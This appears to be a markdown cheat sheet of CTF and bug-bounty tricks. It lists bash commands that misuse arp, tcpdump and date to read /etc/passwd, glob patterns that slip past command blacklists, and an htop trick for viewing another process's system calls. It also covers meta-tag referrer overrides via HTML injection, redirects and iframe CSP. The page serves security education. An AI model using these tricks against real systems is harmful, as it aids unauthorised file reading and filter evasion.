 ## BASH/MISC

1. **Bash Commands that can do Local read file**
    * arp -v -f '/etc/passwd'
    * tcpdump -c 1 -vvvvvv -V '/etc/passwd'
    * date '+%s' -f '/etc/passwd'
    * od /etc/passwd 

2. **Using htop/top command to seek into other process memory**

    * htop/top command can be used to strace a process sys calls. Steps:
        * Run htop
            ```bash
            root@fc7e34d51219:/# htop
            ```
        * Goto process you need to see working of 
        * Press ‘s’ . It will show strace of the corresponding process

3. **The mysterious ^D(Ctrl+D)**

    * LIke ^C , ^D is also used to Exit a program but ^D sends an EOF on standard input to exit the program while ^C uses SIGINT to exit. 

        Run `perl` in interactive mode and see it in action

        ```bash

        root@fc7e34d51219:/ctf# perl -
        print(23);
        print("hello??");
        print("hmmm");
        ```
        If we use ^C it will exit normally without executing any, but using ^D will execute the commands. Now it's not only with perl, many command line utilities follow same.

4. **Bash blacklist escape**

    You might know the following trick:
    ```bash
    root@cb7435cd5cf3:/ctf# ls /root
    angr  bin ...

    root@cb7435cd5cf3:/ctf# ls /roo*
    angr  bin ...
    
    root@cb7435cd5cf3:/ctf# ls /roo?
    angr  bin ...
    ```
    The `*` or `?` is auto filling the input. 

    Do you know we can also use other regex like

    ```bash
    root@cb7435cd5cf3:/ctf# ls /roo[a-z]
    angr  bin ...

    root@cb7435cd5cf3:/ctf# ls /roo{x,t}
    ls: cannot access '/roox': No such file or directory
    /root:
    angr  bin
    ```


## WEB

1. **HTML - Meta tag tricks**
    
    Meta tags can be used to override referrer policy
    ```php

    <?php 
      header("Referrer-Policy: no-referrer");
    ?>

    <html>
      <body>
          <meta name="referrer" content="unsafe-url">
          <img src="http://zeta2.free.beeceptor.com" >
      </body>
    </html>
    ```

    The referrer policy added by PHP will be ignored. So if we have HTML-injection we can basically override referrer policy.


2. **Meta tags redirect**
    We can use meta tags to redirect to different site

    ```html

    <meta http-equiv="refresh" content="0;URL='http://example.com/'" />
    ```

3. **Iframe: Override CSP In IFRAME's**

    * Lets say http://example.com has some CSP setting. 
    * Iframe also has a csp attribute which allows us to implement csp on the frame source site.
    
    ```html
    <iframe csp="script:none" src='example.com'>
    ```
    The CSP which is more strict (frame’s attribute or coming from src tag) will be chosen as CSP within iframe. More on https://w3c.github.io/webappsec-cspee/


## New Tools to improve Bug Bounty flow

* HTTP Parameter finding : [https://github.com/0xsapra/fuzzparam](https://github.com/0xsapra/fuzzparam)
* Logic bugs finding : [https://github.com/ngalongc/openapi_security_scanner](https://github.com/ngalongc/openapi_security_scanner)
